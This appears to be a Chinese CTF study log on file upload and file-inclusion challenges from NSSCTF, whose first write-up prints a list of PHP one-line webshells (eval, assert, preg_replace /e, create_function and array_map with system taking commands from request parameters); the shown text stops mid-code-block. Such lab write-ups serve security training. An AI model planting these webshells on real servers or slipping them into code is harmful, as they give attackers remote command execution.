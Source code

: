 # 2025-01-22题单

## 1.今日主题关键词

进阶，文件上传，文件包含，一句话木马，php伪协议

## 2.今日题目

- [x] 10金币 [SWPUCTF 2021 新生赛]easyupload1.0 https://www.nssctf.cn/problem/388
- [x] 20金币 [鹏城杯 2022]简单包含 https://www.nssctf.cn/problem/2422
- [x] 30金币 [FSCTF 2023]是兄弟，就来传你の🐎！https://www.nssctf.cn/problem/4561
- [x] 20金币 [HNCTF 2022 WEEK2]easy_include https://www.nssctf.cn/problem/2948

## 3.题解

### 3.1 [SWPUCTF 2021 新生赛]easyupload1.0

#### 题目描述：

无描述

#### 题解

1. 打开题目，发现是一个文件上传的题目，下面是一些一句话木马

```php
<?php @eval($_POST['r00ts']);?> 
<?php phpinfo();?>
<?php @eval($_POST[cmd]);?>
<?php @eval($_REQUEST[cmd]);?>
<?php assert($_REQUEST[cmd]); ?>
<?php //?cmd=phpinfo() @preg_replace("/abc/e",$_REQUEST['cmd'],"abcd"); ?>
<?php 
//?cmd=phpinfo();
$func =create_function('',$_REQUEST['cmd']);
$func();
?>

<?php
//?func=system&cmd=whoami
$func=$_GET['func'];
$cmd=$_GET['cmd'];
$array[0]=$cmd;
$new_array=array_map($func,$array);
//print_r($new_array);
?>

<?php 
//?cmd=phpinfo()
@call_user_func(assert,$_GET['cmd']);
?>

<?php 
//?cmd=phpinfo()
$cmd=$_GET['cmd'];
$array[0]=$cmd;
call_user_func_array("assert",$array);
?>

<?php 
//?func=system&cmd=whoami
$cmd=$_GET['cmd'];
```